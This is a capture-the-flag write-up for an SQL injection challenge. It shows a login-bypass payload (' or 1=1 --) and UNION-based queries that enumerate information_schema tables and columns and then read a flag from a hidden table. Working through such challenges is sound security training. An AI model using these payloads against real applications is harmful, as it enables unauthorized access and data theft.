



# Authentication

It is a basic SQL injection challenge.




To bypass the login page we can imagine that it's a classic SQL query with no protection such as : 

```
SELECT * FROM Users WHERE Username='$username' AND Password='$password'
```

We just need to have the  WHERE condition as `true`. 

Username : 
```
' or 1=1 --
```

Let's put comments (--) at the end to ignore the rest of the query. Every DBMS has its own syntax for comments (\*, /\* , -- ...), so it is just trial and error.

Password : 
```
pass
```

### The second stage of the callenge is a UNION exploitation technique.

The UNION operator is used in SQL injections to join a query, purposely forged by the tester, to the original query. The
result of the forged query will be joined to the result of the original query, allowing the tester to obtain the values of
columns of other tables.

Because we used `--` as comments before, we can imagine that the DBMS used is MySQL.

We want to obtain more information on the database in order to find other interesting tables.
Let's use the INFORMATION_SCHEMA table of MySQL. (More of that here https://dev.mysql.com/doc/refman/8.0/en/information-schema.html)

In the *Membres* page : 

```
xxx%" UNION SELECT TABLE_NAME,2,3 FROM information_schema.TABLES;
```

The `%` is present because of the LIKE operator, which is common is this kind of queries.

We have another table : 



Let's find what are the columns in this table : 

```
xxx%" UNION SELECT COLUMN_NAME,2,3 FROM information_schema.COLUMNS WHERE TABLE_NAME = "supa_secret_table";
```



Then a final query to catch the flag :

```
xxx%" UNION SELECT flag,2,3 FROM supa_secret_table;
```
